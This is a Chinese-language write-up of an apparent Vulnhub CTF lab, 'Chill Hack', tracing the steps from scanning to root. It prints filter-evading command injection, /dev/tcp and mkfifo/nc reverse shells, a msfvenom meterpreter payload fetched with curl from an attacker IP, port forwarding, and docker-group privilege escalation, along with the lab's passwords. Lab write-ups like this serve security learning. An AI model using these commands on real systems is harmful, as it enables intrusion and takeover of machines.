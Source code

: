 ```yaml
---
title: chill_hack靶机
categories: [CTF]
comments: true

---
```


# chill_hack靶机

## 前言

该靶机为vulnhub上的一个靶机

## 正文

nmap 靶机地址

![img](../assets/img/text/chill_hack_1.png)

可以看到开起了三个端口，访问80看看

![img](../assets/img/text/chill_hack_2.png)

收集目录

![img](../assets/img/text/chill_hack_3.png)

命令执行，发现有过滤

![img](../assets/img/text/chill_hack_4.png)

![img](../assets/img/text/chill_hack_5.png)

c\at index.php

![img](../assets/img/text/chill_hack_6.png)

想直接弹shell发现

```
ba\sh -i >& /dev/tcp/ip/port 0>&1
```

执行不了，监听端没反应，尝试用nc连也连不了，决定用开管道的方式反弹

```
r\m /tmp/m;mkfifo /tmp/m;/bin/sh -i 0</tmp/m|nc ip port >/tmp/m
```

获取shell之后，升级shell变为交互式

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![img](../assets/img/text/chill_hack_7.png)

升级完成之后找一下敏感文件，当场找到数据库的配置密码，但是扫描端口的时候没发现有数据库开放的端口

```
PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

![img](../assets/img/text/chill_hack_8.png)

翻了一下没其他的了，那么看看能不能提高权限。

sudo -l 发现弹出提示，说明可以执行这个脚本

![img](../assets/img/text/chill_hack_9.png)

```sh
echo 
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!" 
echo read -p "Enter the person whom you want to talk with: " person read -p "Hello user! I am $person,  Please enter your message: " msg 
$msg 2>/dev/null 
echo "Thank you for your precious time!"
```

发现也有命令执行的语句，试试看能不能把shell升级成apaar用户，因为这个文件的权限拥有者是apaar，最多也是只能升级为apaar用户，其他用户是不行的。

```
sudo -u apaar /home/apaar/.helpline.sh
```

![img](../assets/img/text/chill_hack_10.png)

老方法升级成交互shell。去用户目录下拿到该用户的flag

![img](../assets/img/text/chill_hack_11.png)

查看端口开放和连接，发现开启了3306和9001端口，但是只允许本机访问，外网访问不了，打算在meterpreter上线，然后开启端口转发访问一下3306和9001服务

![img](../assets/img/text/chill_hack_12.png)

生成elf弹反shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.35.149 lport=4444 -f elf -o shell.elf

curl 192.168.35.149:8000/shell.elf>shell.elf
```

![img](../assets/img/text/chill_hack_13.png)

![img](../assets/img/text/chill_hack_14.png)

meterspreter开启端口转发，将机器上的9001和3306转发到本机的9002和9003端口进行访问

```
portfwd add -l 9002 -p 9001 -r 127.0.0.1
portfwd add -l 9003 -p 3306 -r 127.0.0.1
```

连接

![img](../assets/img/text/chill_hack_15.png)

md5解密https://www.somd5.com/

![img](../assets/img/text/chill_hack_16.png)

![img](../assets/img/text/chill_hack_17.png)

anurodh

masterpassword

试了一下这个密码，发现ssh连接失败，应该不是这个密码

访问一下9001这个网站，利用账号登录

![img](../assets/img/text/chill_hack_18.png)

根据提示说在图片里，找了一下图片隐写的工具steghide

```
steghide extract -sf xxx.jpg
```

提取得到

![img](../assets/img/text/chill_hack_19.png)

https://www.shuzhiduo.com/A/MyJxNM8Adn/

![img](../assets/img/text/chill_hack_20.png)

解密得到source_code

![img](../assets/img/text/chill_hack_21.png)

IWQwbnRLbjB3bVlwQHNzdzByZA==

解密得到：

```
!d0ntKn0wmYp@ssw0rd
```



尝试ssh连接

![img](../assets/img/text/chill_hack_22.png)

连接成功，发现anurodh是docker组成员，找了一下docker组提权

![img](../assets/img/text/chill_hack_23.png)

尝试一下docker提权

 docker run -v /root:/mnt --rm -it alpine

该docker组提权方法为将本机的/root根目录挂载到容器中的/mnt目录下，然后进入容器里，然后进入/mnt就可以查看到/root目录下的文件了，成功拿到靶机flag，如果是要操作整个系统的话，可以把根目录挂载进去，

![img](../assets/img/text/chill_hack_24.png)

![img](../assets/img/text/chill_hack_25.png)

![img](../assets/img/text/chill_hack_26.png)

可以看到已经拥有写入靶机的权限

也可以启动docker时在末尾添加这条命令

```
chroot /mnt /bin/bash
```

chroot将/mnt作为当前的根目录，然后获得交互shell

![img](../assets/img/text/chill_hack_27.png)

![img](../assets/img/text/chill_hack_28.png)

**知识点总结**

1. 命令执行
2. 利用开通管道的方式mkfifo反弹shell
3. 反弹到meterperter开启端口转发
4. 图片隐写
5. docker组提权